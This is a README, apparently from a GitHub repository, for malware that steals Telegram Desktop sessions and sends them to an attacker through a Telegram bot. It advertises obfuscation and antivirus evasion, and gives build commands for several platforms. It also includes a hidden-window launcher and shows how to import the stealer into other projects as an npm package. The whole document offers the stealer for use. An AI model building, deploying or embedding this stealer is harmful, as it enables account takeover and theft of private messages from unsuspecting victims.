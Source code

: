 # Telegram Stealer

Steal Telegram Desktop sessions.

If the stealer is started inside WSL, it will get the Telegram Desktop sessions from its Windows host.

**Note:** If the target configured a local password in Telegram Desktop, the sessions will be encrypted, so you would need the password to unlock it.

## Demo

https://youtu.be/3mKOwtCnwYw

## Features

- Steal Telegram Desktop sessions
- Works on all platforms, including WSL (on WSL, the binary will get the sessions from its Windows host)
- If Telegram Desktop is not in appData (i.e. portable installation), inspect the `Telegram.exe` running process to find its path (Windows or WSL only)
- Source is highly obfuscated using [javascript-obfuscator](https://github.com/javascript-obfuscator/javascript-obfuscator)
- Output binary is packaged to a single portable binary using [pkg](https://github.com/vercel/pkg)
- Send sessions via Telegram using webhooks
- Try to detect some anti-virus virtual machines to be FUD as long as possible

## Build

Install dependencies

```sh
npm i -D
npm i -g pkg
```

Build

```sh
npm run build <chat_id> <bot_token>

# Create the stealer binary, choose target system and architecture
npm run pkg-windows
npm run pkg-linux
npm run pkg-linux-arm
npm run pkg-macos
npm run pkg-macos-arm
```

## Run

Run the `hello` binary.

To hide the console window on a Windows machine, you can run the script using the provided VB script (see [`run_hidden_windows.vbs`](./run_hidden_windows.vbs)).

## Include in your project

```sh
npm install https://github.com/rigwild/telegram-stealer.git
```

```ts
import { run as stealTelegram } from 'telegram-stealer'

type StealTelegram = (
  telegramChatId: string,
  telegramToken: string,
  archivePassword?: string,
  waitOnStart?: boolean
) => Promise<void>

await stealTelegram('<chat_id>', '<bot_token>', '<archivePassword>', false)
```

## Related projects

- [Waifu Stealer](https://github.com/rigwild/waifu-stealer) - Stealer builder (Browsers, Discord, Telegram, ...)
- [Discord Stealer](https://github.com/rigwild/discord-stealer) - Steal Discord tokens from clients and browsers

## License

[The MIT license](./LICENSE)
